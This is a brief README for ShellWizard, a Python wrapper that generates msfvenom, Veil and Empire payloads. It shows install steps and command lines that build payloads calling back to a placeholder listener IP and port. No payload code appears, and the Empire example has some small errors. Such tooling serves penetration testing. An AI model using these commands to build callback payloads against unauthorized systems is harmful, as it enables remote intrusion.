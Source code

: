 
<h1 align="center">
  <br>
ShellWizard
  <br>
</h1>

<h4 align="center">Python wrapper for the payload creation.</h4>

<p align="center">
  <a href="#install">Install</a> •
  <a href="#examples">Examples</a> •
  <a href="#related">Related</a> •
  <a href="#license">License</a>
</p>

## Install
```python
git clone https://github.com/byinarie/ShellWizard.git
pip3 install -r requirements.txt 
```

## Examples
* Help
```python
python3 ShellWizard.py --help
python3 ShellWizard.py venom --help
python3 ShellWizard.py empire --help
python3 ShellWizard.py veil --help
```

* Generate a veil payload
```python
python3 ShellWizard.py veil -lhost LISTENER-IP -lport -LISTENER-PORT -veil-options ADDTIONAL-OPTIONS
```
* Generate a venom payload
```python
python3 ShellWizard.py venom -lhost LISTENER-IP -lport -LISTENER-PORT -msf-options ADDTIONAL-OPTIONS
```

* Generate an Empire Payload (needs updated to include lhost)
```python
python3 ShellWizard.py veil --empire-host EMPIRE-API --empire-user USER --empire-pass PASSWORD --empire-options ADDTIONAL-ARGUMENTS```
```

## Related
* todo

## License

Creative Commons Zero v1.0 Universal

---

